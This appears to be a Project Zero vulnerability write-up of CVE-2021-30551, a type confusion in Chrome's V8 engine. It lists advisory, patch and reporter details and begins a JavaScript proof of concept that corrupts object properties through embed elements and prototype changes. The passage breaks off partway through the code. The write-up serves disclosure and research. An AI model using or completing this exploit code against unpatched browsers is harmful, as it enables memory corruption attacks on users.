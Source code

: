# CVE-2021-30551: Chrome Type Confusion in V8
*Sergei Glazunov, Project Zero*

## The Basics

**Disclosure or Patch Date:** 9 June 2021

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2021/06/stable-channel-update-for-desktop.html

**Affected Versions:** pre 91.0.4472.101

**First Patched Version:** 91.0.4472.101

**Issue/Bug Report:** https://bugs.chromium.org/p/chromium/issues/detail?id=1216437

**Patch CL:** https://chromium.googlesource.com/v8/v8/+/f9857fdf743eeb263aec3944259ad811f564291b

**Bug-Introducing CL:** N/A

**Reporter(s):** Clement Lecigne of Google's Threat Analysis Group and Sergei Glazunov of Google Project Zero

## The Code

**Proof-of-concept:**
```js
global_object = {};

setPropertyViaEmbed = (object, value, handler) => {
  const embed = document.createElement('embed');
  embed.onload = handler;
  embed.type = 'text/html';
  Object.setPrototypeOf(global_object, embed);
  document.body.appendChild(embed);
  object.corrupted_prop = value;
  embed.remove();
}

createCorruptedPair = (value_1, value_2) => {
  const object_1 = {
    __proto__: global_object
  };
  object_1.regular_prop = 1;

  setPropertyViaEmbed(object_1, value_2, () => {
    Object.setPrototypeOf(global_object, null);
    object_1.corrupted_prop = value_1;
  });

  const object_2 = {
    __proto__: global_object
  };
  object_2.regular_prop = 1;

  setPropertyViaEmbed(object_2, value_2, () => {
    Object.setPrototypeOf(global_object, null);
    object_2.corrupted_prop = value_1;
    object_1.regular_prop = 1.1
  });
  return [object_1, object_2];
}

const array = [1.1];
```